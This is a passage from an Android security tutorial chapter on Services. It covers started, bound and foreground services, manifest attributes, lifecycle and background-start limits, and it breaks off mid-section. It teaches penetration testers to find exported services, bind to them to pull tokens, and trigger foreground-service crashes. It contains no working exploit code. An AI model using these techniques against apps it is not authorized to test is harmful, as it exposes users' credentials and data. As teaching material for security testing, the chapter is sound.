







# 28 — Services

> After this chapter you can tell, for any Android app, which of its services a stranger's app can
> reach; bind to one from an unprivileged process and drive it; explain the difference between a
> started, a bound and a foreground service without hand-waving; and write the caller check the
> developer forgot — in the one place where it actually runs.

**Prerequisites:** [24 — IPC](../24-IPC/README.md) (what an IPC surface is),
[25 — Binder](../25-Binder/README.md) (the transport, parcels, and how caller identity is stamped),
[21 — App Sandbox](../21-App-Sandbox/README.md) (UIDs and `isolatedProcess` mechanics),
[23 — Permissions](../23-Permissions/README.md) (protection levels).

**Useful alongside:** [32 — Manifest](../32-Manifest/README.md) (how a component is declared and
audited). Every declaration attribute this chapter depends on — `android:exported`,
`android:permission`, `android:isolatedProcess` — is explained here where it is used, so 32 adds
breadth rather than being a gate.

**Applies to:** API 21 (Android 5.0) through API 35 (Android 15), with the version-dependent
behaviour called out in the version matrix in §3.16. **Every measurement in this chapter was taken on
a physical Redmi `M2101K6P` running Android 11 / API 30**, and every claim about API 31+ behaviour is
labelled as documented rather than measured, because that device cannot exhibit it.

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [High-Level Architecture](#2-high-level-architecture)
3. [Deep Internal Working](#3-deep-internal-working)
4. [Source Code Walkthrough (AOSP)](#4-source-code-walkthrough-aosp)
5. [Security Perspective](#5-security-perspective)
6. [Reverse Engineering Perspective](#6-reverse-engineering-perspective)
7. [Dynamic Analysis](#7-dynamic-analysis)
8. [Static Analysis](#8-static-analysis)
9. [Examples](#9-examples)
10. [Common Interview Questions](#10-common-interview-questions)
11. [Common Mistakes](#11-common-mistakes)
12. [Hands-on Labs](#12-hands-on-labs)
13. [Summary](#13-summary)
14. [References](#14-references)

---

## 1. Introduction

### 1.1 The problem that existed before services

Imagine a shop with a single counter. A customer walks up, asks for something, is served, and leaves.
While a customer is at the counter, the shopkeeper can do nothing else. If a delivery arrives, or a
kettle needs watching, or an order needs phoning through to a supplier, the shopkeeper has to abandon
the counter — and the customer standing there sees an empty counter and walks out.

That is exactly the situation an app is in with only one kind of component. An **Activity** — the
Android component that owns a screen — is the counter. It exists to talk to a person who is looking
at it. The moment the person navigates away, the system is entitled to destroy it, because screens
that nobody is looking at are wasted memory on a phone.

> **📖 Definition**
> A **component** in Android is one of four declared entry points into an app: an `Activity` (a
> screen), a `Service` (work with no screen), a `BroadcastReceiver` (a handler for system-wide
> announcements), and a `ContentProvider` (a structured data door). All four are declared in the
> app's `AndroidManifest.xml`, and all four can be reachable by other apps. See
> [32 — Manifest](../32-Manifest/README.md).

So: what runs the kettle? A music player must keep playing when you lock the screen. A file sync must
finish uploading when you switch to your mail app. A messaging app must keep a connection open to its
server so a message arrives within a second rather than a minute. A photo app must let a *different*
app ask it to render a thumbnail.

None of that has a screen. All of it needs to outlive the screen. That is the whole reason the
`Service` component exists.

### 1.2 What would break if services did not exist

Concretely, and in the order you would notice:

| Without services | What actually happens |
|---|---|
| No background playback | Music stops the instant you press Home, because the Activity was destroyed |
| No long uploads | A 200 MB upload dies when the screen turns off |
| No push connections | Every message arrives only when you open the app, so notifications become polling, so battery collapses |
| No cross-app function calls | An app that wants a PDF rendered must ship its own renderer. Every app ships every library. APKs triple in size |
| No system plug-ins | Keyboards, screen readers, VPNs, wallpapers, notification listeners and quick-settings tiles are all "the system calls into your app". With no service component there is nothing for the system to call into |

The last row is the one people forget, and it is the one that matters most in this chapter. A great
deal of Android's extensibility is expressed as *the platform binding a service that your app
declares*. An accessibility service, an input method, a VPN, a notification listener — every one of
those is a `Service` subclass whose `onBind` is called by `system_server`. That design is elegant,
and it is also the reason a single manifest entry can hand an app the ability to read every word on
the screen.

### 1.3 A service is not a thread, and not a process

This is the single most common misunderstanding, and it is worth killing on page one.

> **⚠️ Warning**
> A `Service` runs **on the main thread of its process**, exactly like an Activity. Creating a
> service does not create a thread. Creating a service does not create a process. If you do
> network I/O in `onStartCommand`, you block the main thread and the app freezes, and after five
> seconds the system shows "Application Not Responding".

What a service actually *is*: a declared, addressable, lifecycle-managed object that the system will
keep alive — and whose *process* the system will treat as more important — as long as somebody has a
reason for it to exist. The service is a **claim on the process's lifetime**, plus an **entry point
other code can address**.

> **🧠 Mental Model**
> An Activity says to the system: "a human is looking at me, do not kill me." A service says: "work
> that a human cares about is happening in here, do not kill me." Both are statements about
> **process priority**, made in different vocabularies. Everything else — the callbacks, the
> lifecycle, the `IBinder` — is machinery for making that claim credible and for letting other code
> address the work.

### 1.4 The three shapes, in one paragraph each

A service is used in one of three shapes. The shapes are not mutually exclusive — one service object
can be all three at once — but they have different lifetimes, different failure modes, and very
different security properties.

**Started.** Somebody calls `startService()` (or `startForegroundService()`). The system creates the
service if necessary and calls `onStartCommand()`. The service now runs until it stops itself with
`stopSelf()` or somebody calls `stopService()`. There is no channel back to the caller: it is a
fire-and-forget command, carried in an `Intent`. The caller learns nothing except whether the service
existed.

**Bound.** Somebody calls `bindService()`. The system creates the service if necessary, calls
`onBind()`, and hands the returned `IBinder` back to the caller through `onServiceConnected()`. The
caller now holds a **direct Binder handle into the service's process** and can make typed,
synchronous, two-way calls on it. The service lives as long as at least one client is bound. This is
remote procedure call, and it is where the interesting bugs are.

**Foreground.** A started service that has called `startForeground()` and put up a user-visible
notification. It is the same object; what changes is that the system promotes the process to a
priority band that is not routinely killed, and — crucially — the *user* is told the app is doing
something. Foreground status is a bargain: you get lifetime, the user gets visibility.



The diagram shows why the shapes matter to a tester. **Started and bound are two independent claims
on the same object's lifetime**, and a service that is both does not die until *both* claims are
released. Foreground is not a fourth shape; it is a modifier applied to a started service, which is
why you cannot promote a purely-bound service to the foreground without starting it as well.

### 1.5 Why this chapter matters disproportionately to a tester

Three reasons, and they compound.

**A service has no UI, so it gets less review.** A developer reviewing an Activity sees a screen and
asks "should a stranger be able to open this?". A service is a class with no visible output; the same
developer reads `onBind` and moves on. Exported-by-accident is more common here than anywhere except
`BroadcastReceiver`.

**A bound service is a *typed* remote API.** Once you hold the `IBinder`, you are not sending an
opaque `Intent` and hoping. You are calling `getAuthToken()`. The distance between "I can bind" and
"I have the token" is often one line of code. On the test device used for this chapter, that distance
was measured: see §5.3.1.

**The system itself binds services, with enormous privilege attached.** `BIND_ACCESSIBILITY_SERVICE`,
`BIND_NOTIFICATION_LISTENER_SERVICE`, `BIND_INPUT_METHOD`, `BIND_VPN_SERVICE`, `BIND_DEVICE_ADMIN` —
each of those is a manifest string that converts a service into a platform plug-in with capabilities
no ordinary permission grants. Malware families have been built on exactly one of those lines.

### 1.6 The thesis of this chapter

Stated once, plainly, because everything else is in service of it:

> **An exported service is not a finding. It is a *lead*.** The finding is what a caller can make it
> do. Report `android:exported="true"` without a demonstrated effect and you are reporting a
> configuration, not a vulnerability — and the developer, who exported it deliberately so their own
> widget could bind, will correctly ignore you. Bind to it, drive it, and show the token coming back.

This is not a plea for politeness. It is a claim about accuracy. Plenty of exported services are
exported on purpose and do nothing an attacker wants. Plenty of *non*-exported services are reachable
anyway, through a `BIND_EXTERNAL_SERVICE` relationship or a permission whose protection level is
`normal`. Neither fact is visible in a manifest scan. Both are visible the moment you bind.

---

## 2. High-Level Architecture

### 2.1 Who is involved

Nothing about services is direct. A client does not touch the target app; it asks `system_server` to
arrange things, and `system_server` decides whether it will.



Read the diagram in two halves, because the two halves have completely different security
properties.

**The setup half** — every arrow through `system_server` — is where all the checking happens. Is the
component exported? Does the caller hold the declared permission? Can the caller even *see* the
target package? Is the caller allowed to start a background service right now? Every one of those
questions is answered inside `ActiveServices`, in `system_server`, before your app's `onBind` is ever
called.

**The use half** — the single fat arrow from the client to the `IBinder` — has **no system
involvement at all**. Once `onServiceConnected` has handed the client a Binder handle, every
subsequent call goes client process → kernel → target process. `system_server` sees none of it and
checks none of it. There is no per-call permission gate unless the service writes one.

> **🔍 Pentester's Note**
> That asymmetry is the whole game. The platform checks *the act of binding*, once. It does not
> check *what you do with the binding*, ever. A service that gates access at `onBind` and then hands
> out an omnipotent interface has been checked exactly once, at the least useful moment.

### 2.2 One `bindService` call, end to end



Two facts in that sequence are worth more than the rest of the diagram combined, and both were
measured on the test device rather than read from documentation.

**Step 12: `Binder.getCallingUid()` inside `onBind` returns your own UID, not the caller's.** The
reason is visible in the diagram: `onBind` is not invoked by the client. It is invoked by
`ActivityThread` on the service's own main thread, in response to a message from `system_server`. By
the time your code runs, there is no Binder transaction in progress from the client, so
`IPCThreadState`'s notion of the calling UID has fallen back to the process's own. A caller check
written in `onBind` therefore compares your UID with your UID and always passes. §3.7 shows the
measurement.

**Step 16: `Binder.getCallingUid()` inside an AIDL method returns the real caller.** That call *is* a
live transaction, and the kernel stamped it. [25 — Binder](../25-Binder/README.md) §3.11 demonstrates
that the stamp is unforgeable; this chapter simply relies on it.

### 2.3 The lifecycle, as a state machine



The state machine encodes the two independent claims from §1.4. A service in `StartedAndBound` has
both a start claim and a bind claim outstanding, and releasing either one does not destroy it — it
merely drops it back to the other state. This is the mechanism behind a real and very common bug: a
developer calls `stopSelf()`, observes that `onDestroy` never runs, and concludes the framework is
broken. The framework is fine; a client is still bound.

The `Killed → Created` edge is the one testers care about. `START_STICKY` means the system will
recreate the service after killing it, and will call `onStartCommand` **with a null Intent**, because
the original Intent was not retained. Code that does `intent.getStringExtra(...)` on the first line
of `onStartCommand` crashes on every restart. §3.3 covers the return values in full.

### 2.4 The trust boundaries, named



Three boundaries, and only two of them are the platform's.

Boundary 1 is the kernel and it never fails: uid 10291 cannot read uid 10310's files. See
[21 — App Sandbox](../21-App-Sandbox/README.md).

Boundary 2 is `system_server`'s admission decision, and it is binary and one-shot. It answers "may
this UID bind at all", not "may this UID call *this method*".

Boundary 3 is coloured as attacker-relevant because **it is the only boundary a developer has to
write by hand, and therefore the only one that is routinely missing.** Every exploitable finding in
§5 is a missing boundary-3 check. The platform gives you nothing here: there is no annotation, no
default, no lint rule that fails the build.

### 2.5 Where the three IBinder shapes sit



The three returns look interchangeable in a tutorial and are not interchangeable in production. The
local binder does not survive a process boundary at all. `Messenger` serialises every message onto
one thread, which makes it safe by construction and slow by construction. AIDL dispatches on the
Binder thread pool, which makes it fast, concurrent, **and reentrant** — and that last property is a
genuine, recurring source of bugs in shipping code. §3.11 treats it properly, because it is the kind
of thing that is stated in one line of the official documentation and understood by almost nobody.

---
## 3. Deep Internal Working

This is the long section. It answers **what**, **why**, **when**, **where** and **how** for each
mechanism, and it names the AOSP structure behind each one so §4 has something to point at.

### 3.1 What is declared, and what that declaration means

A service exists because a line in `AndroidManifest.xml` says it does. Nothing else creates one; a
class that extends `Service` and is not declared cannot be started, bound, or even instantiated by
the framework.

```xml
<!-- AndroidManifest.xml — every attribute that matters, in one element -->
<service
    android:name=".SyncService"
    android:exported="false"
    android:permission="com.example.permission.SYNC"
    android:process=":sync"
    android:isolatedProcess="false"
    android:externalService="false"
    android:useAppZygote="false"
    android:foregroundServiceType="dataSync"
    android:directBootAware="false"
    android:enabled="true"
    android:stopWithTask="true"
    android:description="@string/sync_desc">
    <intent-filter>
        <action android:name="com.example.action.SYNC"/>
    </intent-filter>
</service>
```

| Attribute | What it does | Why a tester cares |
|---|---|---|
| `android:name` | The class. A leading `.` means "relative to the manifest `package`" | The string you need for an explicit bind |
| `android:exported` | Whether other apps may start or bind it | **The admission gate.** Default is `true` if any `<intent-filter>` is present, `false` otherwise — and from API 31 an explicit value is *mandatory* when a filter exists |
| `android:permission` | Permission a caller must hold to start *or* bind | Its **protection level** decides whether this is a real gate. A `normal` permission is not a gate; any app can hold it |
| `android:process` | Run in a named process. A leading `:` makes it private to the app | **Not a security boundary.** Same UID, same data directory. See [21 §3.12](../21-App-Sandbox/README.md) |
| `android:isolatedProcess` | Run in a throwaway UID with no permissions, no network, no data dir | A genuine sandbox reduction — one of the few *positive* findings. §3.14 |
| `android:externalService` | The isolated process is charged to, and runs under, the **client's** app | Rare and interesting; §3.14.3 |
| `android:useAppZygote` | Fork isolated instances from a per-app Zygote | Changes the isolated UID range; §3.14.2 |
| `android:foregroundServiceType` | Declares *why* the service runs in the foreground | Mandatory from API 34 for `targetSdk` 34+. §3.13 |
| `android:directBootAware` | May run before the user unlocks the device for the first time after boot | Reachable earlier than everything else; a pre-unlock attack surface |
| `android:enabled` | Whether the component exists at all | Can be flipped at runtime by `PackageManager.setComponentEnabledSetting` — so a manifest read can be wrong |
| `android:stopWithTask` | Destroy the service when the user swipes the task away | Absence of it is how "unkillable" background services are built |

> **⚠️ Warning**
> The `exported` default is a trap that has bitten every Android developer at least once. Adding an
> `<intent-filter>` to a service — often just to give it a nice action string for the app's own
> use — flips the default from `false` to `true`. The developer wrote no `exported` attribute and
> believes they exported nothing. [32 — Manifest](../32-Manifest/README.md) owns the full audit
> procedure for this; here it is enough to know that *the presence of a filter is itself the signal*.

### 3.2 The started service

#### What it is

A started service is a **command**. `startService(Intent)` puts an `Intent` into `system_server`,
which delivers it to the service's `onStartCommand()`. There is no return channel. The `ComponentName`
that `startService` returns tells you only which component was resolved; it says nothing about what
happened.

```java
// Client — a started service is fire-and-forget
Intent i = new Intent(this, SyncService.class);
i.putExtra("account", "alice@example.com");
ComponentName cn = startService(i);   // cn != null means "resolved", not "succeeded"
```

```java
// Service side
@Override
public int onStartCommand(Intent intent, int flags, int startId) {
    // intent may be NULL. See the START_STICKY row below.
    // flags carries START_FLAG_REDELIVERY and START_FLAG_RETRY.
    // startId identifies THIS delivery, and matters for stopSelf(startId).
    new Thread(() -> doWork(intent)).start();   // the main thread is not yours to block
    return START_STICKY;
}
```

#### The `onStartCommand` return value, and why it matters

This is the question in §1 of every Android interview, and the reason it is asked is that the answer
changes what happens after a crash — which is exactly when nobody is watching.

| Return constant | Value | If the process is killed while the service is running | `Intent` on redelivery |
|---|---|---|---|
| `START_STICKY` | 1 | The system **recreates** the service and calls `onStartCommand` again | **`null`** — the original Intent is not retained |
| `START_NOT_STICKY` | 2 | The system does **not** recreate it. The work is simply lost | n/a |
| `START_REDELIVER_INTENT` | 3 | The system recreates it and redelivers **the last Intent**, with `START_FLAG_REDELIVERY` set in `flags` | The original Intent |
| `START_STICKY_COMPATIBILITY` | 0 | Sticky, but the system does not guarantee `onStartCommand` is called again. The pre-API-5 behaviour | n/a |

> **⚠️ Warning**
> `START_STICKY` plus `intent.getStringExtra(...)` on the first line of `onStartCommand` is a
> `NullPointerException` that only ever fires after a low-memory kill. It will not reproduce on a
> developer's desk and it will fire on a two-year-old phone with forty apps installed. Whenever you
> see `START_STICKY`, read the first ten lines of the method looking for an unguarded dereference of
> `intent`. It is a genuine (if low-severity) finding, and it is trivially demonstrable — §7.4 shows
> how to force the kill.

Choosing between them is a *design* decision with a security shadow. `START_REDELIVER_INTENT` means
the system holds a copy of your Intent — extras and all — inside `system_server` until the service
finishes. If those extras contain a credential, that credential now lives in another process's memory
for an unbounded period. It is not exposed to other apps, but it is exposed to anything that can dump
`system_server`, and it lengthens the window in which a heap artefact exists. Prefer to pass an index
and look the secret up.

#### `stopSelf`, `stopSelf(int)` and the `startId` race

```java
// The wrong stop
@Override public int onStartCommand(Intent i, int f, int id) {
    new Thread(() -> { doWork(i); stopSelf(); }).start();     // BUG
    return START_NOT_STICKY;
}
```

`stopSelf()` with no argument stops the service **regardless of how many start commands are
outstanding**. If a second `startService` arrives while the first job is running, the first job
finishes, calls `stopSelf()`, and kills the service with the second job's work undone. The fix is one
character wide:

```java
// The right stop
new Thread(() -> { doWork(i); stopSelf(id); }).start();
```

`stopSelf(startId)` stops the service only if `startId` is the **most recent** one delivered. This is
`ActiveServices.stopServiceTokenLocked`, and it is the reason `startId` is a parameter at all.

#### Background start restrictions — the version wall

This is the single biggest behavioural change in the history of services, and it landed in Android 8.

| API | Restriction on `startService` from the background |
|---|---|
| ≤ 25 | None. Any app could start any service at any time |
| 26 (Oreo) | An app **not in the foreground** may not call `startService`. It throws `IllegalStateException`. It must call `startForegroundService`, and then the service has **5 seconds** to call `startForeground()` or the app is killed with `ForegroundServiceDidNotStartInTimeException` |
| 28 | `startForeground` requires the `FOREGROUND_SERVICE` permission (normal protection level, granted at install) |
| 29 | `foregroundServiceType` introduced; `location`, `camera` and `microphone` types gain "while-in-use" restrictions |
| 31 (Android 12) | Apps targeting 31+ **cannot start a foreground service from the background at all**, with a documented exemption list. `ForegroundServiceStartNotAllowedException` |
| 34 (Android 14) | `foregroundServiceType` is **mandatory** for `targetSdk` 34+, each type requires its own permission, and `dataSync`/`mediaProcessing` gain runtime timeouts |

> **🔬 Under the Hood**
> The five-second promotion deadline is not folklore; it is a timeout message posted by
> `ActiveServices` when a service is started via `startForegroundService`. If `startForeground` has
> not been called when it fires, `system_server` crashes the app deliberately. On API 30 the
> resulting log line names the component, which makes it an easy remote denial-of-service to
> *observe* — and, if the target's service is exported and startable, sometimes to *cause*. See
> §5.3.6.

The device this chapter was measured on is API 30, so the API 31 and 34 rows above are **documented,
not measured**. That distinction is kept throughout; §3.16 marks every row.

### 3.3 The bound service

#### What it is

`bindService()` establishes a **connection**: a long-lived association between a client and a service
object, through which the client receives an `IBinder`. Unlike `startService`, it is asynchronous
with a callback, and unlike `startService`, it gives the client a real channel.

```java
// Client — the complete, correct shape
private IVaultService vault;
private final ServiceConnection conn = new ServiceConnection() {
    @Override public void onServiceConnected(ComponentName n, IBinder b) {
        vault = IVaultService.Stub.asInterface(b);
    }
    @Override public void onServiceDisconnected(ComponentName n) {
        vault = null;               // the PROCESS died; the connection is not gone
    }
    @Override public void onBindingDied(ComponentName n) { /* API 26+ */ }
    @Override public void onNullBinding(ComponentName n) { /* API 28+: onBind returned null */ }
};

Intent i = new Intent();
i.setComponent(new ComponentName("com.example.notesvault",
                                 "com.example.notesvault.VaultService"));
boolean accepted = bindService(i, conn, Context.BIND_AUTO_CREATE);
```

> **⚠️ Warning**
> `bindService` returning `true` does **not** mean you are connected. It means the request was
> accepted for processing: the component resolved, you passed the permission check, and the system
> will try. `onServiceConnected` may never fire. This was measured — see §3.6 — and it is the most
